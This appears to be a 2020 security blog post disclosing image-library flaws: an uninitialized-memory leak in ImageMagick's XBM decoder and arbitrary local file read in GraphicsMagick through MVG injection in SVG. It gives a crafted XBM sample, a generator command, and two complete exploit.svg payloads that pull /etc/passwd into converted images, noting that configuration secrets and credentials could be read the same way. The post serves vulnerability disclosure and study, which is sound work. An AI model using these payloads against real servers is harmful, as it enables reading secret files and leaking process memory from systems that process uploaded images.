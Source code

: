 ```yaml
---
title: "Security of Data processing libraries Part 2 - Exploitation"
date: 2020-02-24T13:20:48+01:00
draft: false
author: "d4d"
authorLink: "https://twitter.com/d4d89704243"
description: "Security of Data processing libraries"
license: ""

tags: ["image","vulnerability","exploit"]
categories: ["ImageMagick","GraphicsMagick","Code review"]

toc: false
autoCollapseToc: true
math: false
comment: false
---
```


Common feature for modern web applications to save and process user files. It can be a avatar generation, file thumbnails, reports or screenshot generation. Open source data processing libraries are usually used for such purposes. There are number of known vulnerabilities at those libraries that can be used to get access to the sensitive informtation. At this article I'll show you how to get access to arbitary file on vulnerable system and lure process memory into your open arms.

<!--more-->

# Bleed attacks

Bleed vulnerabilities have typically been out-of-bounds reads, but those one are the use of uninitialized memory. An uninitialized image decode buffer is used as the basis for an image rendered back to the client. This leaks server side memory. This type of vulnerability is fairly stealthy compared to an out-of-bounds read because the server will never crash. However, the leaked secrets will be limited to those present in freed heap chunks. More detailes can be found at blog post [bleed continues: 18 byte file, $14k bounty, for leaking private Yahoo! Mail images](https://scarybeastsecurity.blogspot.com/2017/05/bleed-continues-18-byte-file-14k-bounty.html) and [exploit for ImageMagick's uninitialized memory disclosure in gif coder](https://github.com/neex/gifoeb)


# ImageMagick memory leak at XBM coder

ReadXBMImage in coders/xbm.c in ImageMagick before [7.0.8-9](https://github.com/ImageMagick/ImageMagick/commit/216d117f05bff87b9dc4db55a1b1fadb38bcb786) leaves data uninitialized when processing an XBM file that has a negative pixel value. 
If the affected code is used as a library loaded into a process that includes sensitive information, that information sometimes can be leaked via the image data. 
Exploit for ImageMagick's uninitialized memory disclosure in xbm coder.  
Auto-generation tool is [xbmdump](https://github.com/d0ge/xbmdump)

### Sample image

```text
#define -_width 16
#define -_height 16
static char -_bits[] = {
  0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 
  0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 
  0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, };
```

How to use:

```bash
xbmdump gen 128x128 dump.xbm
```

# Arbitary file read at TranslateTextEx GraphicsMagick 

Local file read vulnerability affects GraphicsMagick before 1.3.32. Multiple decoders that may use MVG syntaxis by default. Malicious user can get access to the local file content.
To exploit this vulnerability untrusted user file should be converted to another format with command:

```bash
gm convert exploit.svg output.png
```

exploit.svg is:

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1"
	xmlns="http://www.w3.org/2000/svg" xmlns:xlink= "http://www.w3.org/1999/xlink">
	<image 
	xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png' text 128,128 '@/etc/passwd" 
	x="0" y="0" height="137px" width="137px"/>
</svg>
```

Exploit inject custom TextPrimitive inside ImagePrimitive at MVG coder. SVG coder when reads xlink:href attribute do not properly escape ' and any MVG commands can be injected. Function AnnotateImage(annotate.c) reads text from file with TranslateTextEx that accepts '@' as local file.

Malicious user can exploit this vulnerability at image attributes generation process for SVG coder too. 
Attributes generation process at some of the images such as SVG have issue that may allow malicious user read any local file contents.

```bash
gm convert exploit.svg output.png
```

exploit.svg is:

```xml
<?xml version="1.0" standalone="no"?>
<!--@/etc/passwd-->
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="1237px" height="1237px" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink= " http://www.w3.org/1999/xlink"> <image 
	xlink:href="http://www.google.com/images/branding/googlelogo/2x/googlelogo_color_272x92dp.png" 
	x="0" y="0" height="137px" width="137px"/></svg>
```

Function `SetImageAttribute(Image *image,const char *key,const char *value)` do not properly translate comments and label for this image that allow attacker to get file contents when image attributes will be written for image formats like JPEG and GIF. To reproduce vulnerability convert image:
```bash
gm convert exploit.svg output.gif
```
```bash
gm convert exploit.svg output.jpeg
```
Image attributes (comments section) will contains file contents.

# Impact

We are using /etc/passd file for our PoC. The passwd file is not really very sensitive on modern systems. But real malicious user can get access to secrets and credentials stored at configuration files. Passwords are often baked into files such as Mercurial's hgrc file.  X11's .Xauthority file might be useful on an active desktop system.


# Acknowledgement

Thanks ImageMagick and GraphicsMagick teams for the coordination and bug fixing! 
